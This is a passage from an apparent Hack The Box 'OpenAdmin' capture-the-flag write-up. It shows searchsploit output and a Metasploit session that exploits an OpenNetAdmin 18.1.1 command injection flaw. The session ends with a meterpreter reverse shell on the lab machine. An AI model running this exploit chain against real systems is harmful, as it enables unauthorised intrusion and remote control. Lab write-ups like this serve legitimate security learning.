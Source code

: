 From the UI, we can see that the version of `OpenNetAdmin` installed on the box is `v18.1.1`. With that knowledge, I used `searchsploit` to search for any possible exploit for this version.

{% highlight bash %}
searchsploit OpenNetAdmin 18.1.1
----------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                     |  Path
                                                                                   | (/usr/share/exploitdb/)
----------------------------------------------------------------------------------- ----------------------------------------
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                       | exploits/php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                        | exploits/php/webapps/47691.sh
----------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
{% endhighlight %}

I will be using the `Metasploit` module for this one.

{% highlight bash %}
$ msfconsole
msf5 > search opennetadmin

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/unix/webapp/opennetadmin_ping_cmd_injection  2019-11-19       excellent  Yes    OpenNetAdmin Ping Command Injection

msf5 > use  exploit/unix/webapp/opennetadmin_ping_cmd_injection
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set RHOSTS openadmin.htb
RHOSTS => openadmin.htb
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set LHOST tun0
LHOST => 10.10.XX.XX
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > run 

[*] Started reverse TCP handler on 10.10.XX.XX:4444 
[*] Exploiting...
[*] Command Stager progress - 100.00% done (703/703 bytes)
[*] Exploit completed, but no session was created.
{% endhighlight %}

Hmm no session? Lets use a 64-bit payload instead.
{% highlight bash %}
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > run 

[*] Started reverse TCP handler on 10.10.XX.XX:4444 
[*] Exploiting...
[*] Sending stage (3012516 bytes) to 10.10.10.171
[*] Meterpreter session 1 opened (10.10.XX.XX:4444 -> 10.10.10.171:48498) at 2020-04-30 22:45:18 -0400
[*] Command Stager progress - 100.00% done (808/808 bytes)

meterpreter > getuid
Server username: no-user @ openadmin (uid=33, gid=33, euid=33, egid=33)